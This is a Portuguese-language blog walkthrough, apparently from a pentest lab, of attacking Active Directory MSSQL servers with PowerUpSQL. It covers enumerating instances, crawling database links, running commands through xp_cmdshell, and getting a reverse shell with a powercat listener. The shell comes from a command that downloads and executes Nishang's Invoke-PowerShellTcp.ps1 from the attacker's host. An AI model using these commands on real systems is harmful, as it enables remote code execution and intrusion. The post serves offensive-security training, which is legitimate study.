 ```yaml
---
title: "Active Directory - Enumeração MSSQL"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/mssql-server.png)

# Considerações Iniciais

Agora vamos iniciar a enumeração do MSSQL Server desse AD, todo AD vai ter um servidor SQL, uma vez que é onde são guardados os dados.

A ferramenta que utilizarei para essa seção é o PowerUpSql.ps1, um script escrito em PowerShell que possibilita a enumeração rápida e precisa do servidor SQL de um AD.

LEIAM O POST DE REFERÊNCIA, MUITO IMPORTANTE PARA A COMPREENSÃO DO QUE SERÁ EXECUTADO AQUI

*Referência:*

[Link 1](https://blog.netspi.com/powerupsql-powershell-toolkit-attacking-sql-server/)

# Enumeração de Servidores SQL

A ideia inicial aqui é termos qualquer tipo de acesso, mesmo que publico ao banco de dados do SQL, tendo esse acesso podemos escalar privilégios dentro dele e virar SA (sysadmin) dentro dele, podendo por exemplo habilitar o xp_cmdshell e executar comandos cmd dentro da máquina do SQL e conseguir assim um reverse shell!

Vamos lá

## Listando SPN

Ferramenta utilizada PowerUpSql.ps1

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.ps1)

Listando todos os SQL do Laboratório que estão com SPN (Service Principal Name) habilitados

`Get-SQLInstanceDomain`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql.png)

Temos um total de 5 instância de SQL sendo executadas nesse laboratório.

## Verificando Conectividade com o servidor

Agora devemos verificar se algum deles é acessível, e sendo acessível podemos logar com algum usuário

`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql1.png)

Verificamos que temos uma Acessível! Então podemos testar comandos através da chain dela agora

## Testando a chain

Para ver se temos algum tipo de execução de comando dentro do servidor sql temos que testar a chain dele, e ver se em algum desses pontos temos execução de comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql2.png)

Verificamos que ele faz uma chain em vários pontos, então é bem provável que teremos algum tipo de RCE em alguma parte dessa chain

## Executando Comandos

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/sql3.png)

Show! Temos RCE dentro dessa máquina!

## Ganhando um Reverse Shell

Agora vamos pegar um reverse shell nela!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Agora chamamos no crawl nosso reverse shell

`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev2.png)

Recebemos a conexão reversa da máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev3.png)

# Conclusão

Pronto! Conseguimos um reverse shell através de um database link dentro do MSSQL

## Comandos Utilizados

`Get-SQLInstanceDomain`
`Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'whoami'" | ft`
`powercat -l -v -p 443 -t 1000`
`Get-SQLServerLinkCrawl -Instance Instancia_acessível -Query "exec master..xp_cmdshell 'powershell iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1'')'" | ft`